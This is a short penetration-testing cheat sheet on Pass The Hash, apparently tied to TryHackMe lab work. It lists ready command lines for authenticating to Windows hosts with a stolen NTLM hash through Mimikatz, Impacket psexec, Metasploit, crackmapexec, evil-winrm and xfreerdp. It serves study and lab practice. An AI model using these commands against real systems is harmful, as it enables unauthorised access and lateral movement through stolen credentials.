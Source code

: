 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#cme #mimikatz #msf #evil-winrm #xfreerdp 
# Pass The Hash
- As [NetNTLM](NetNTLM.md) is inherently flawed, the password hash can be treated as a password.
- NTLM hash can be used to directly authenticate to a domain/service
- [Mimikatz](../../Cheatsheet/Mimikatz.md) for extracting Credentials
### Mimikatz
```powershell
sekurlsa::pth /user:user.name /domain:za.tryhackme.com /ntlm:<hash> /run:<command>
```
### Impacket's PsExec.py
```bash
python psexec.py -hashes <hash> domain/username@<server/ip>
```
### Metasploit PsExec module
```
exploit/windows/smb/psexec
```
### Crackmapexec
```bash
crackmapexec smb <server/IP> -u username -H <hash>
```
### evil-winrm
```bash
evil-winrm -i <server/IP> -u <username> -H <hash>
```
### xfreerdp
```bash
xfreerdp /v:<server/IP> /u:<domain\username> /pth:<hash> 
```